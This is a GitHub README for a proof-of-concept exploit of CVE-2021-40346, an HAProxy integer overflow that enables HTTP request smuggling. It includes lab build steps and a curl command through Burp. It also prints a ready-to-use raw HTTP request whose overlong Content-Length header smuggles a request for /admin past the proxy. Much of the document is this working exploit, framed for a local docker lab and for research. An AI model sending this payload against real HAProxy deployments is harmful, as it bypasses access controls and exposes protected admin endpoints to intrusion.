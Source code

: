 # CVE-2021-40346-POC #

CVE-2021-40346 integer overflow enables http smuggling


## Build ##
```sh
cd 6-haproxy-overflow-2-smuggling
docker-compose build 
docker-compose up -d
```

## Proxy
Catch the base request into Burp
```
curl --proxy http://127.0.0.1:8080 http://192.168.139.128:10001/guest
```

## Burp Suite
Remember to uncheck "update content length" when dealing with Smuggling in Burp! 

![image](https://user-images.githubusercontent.com/31791455/140394586-6a44d0f5-363e-455c-b22b-f619868bcc87.png)


## Exploit ##
Be careful - note that an extra line might break the exploit.
```
POST /guest HTTP/1.1
Host: localhost:10001
Content-Length0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa:
Content-Length: 23

GET /admin HTTP/1.1
h:GET /guest HTTP/1.1
Host: localhost:10001


```
## Recommended reading:
https://forum.butian.net/share/694
https://jfrog.com/blog/critical-vulnerability-in-haproxy-cve-2021-40346-integer-overflow-enables-http-smuggling/

## Credits:
https://github.com/donky16/CVE-2021-40346-POC


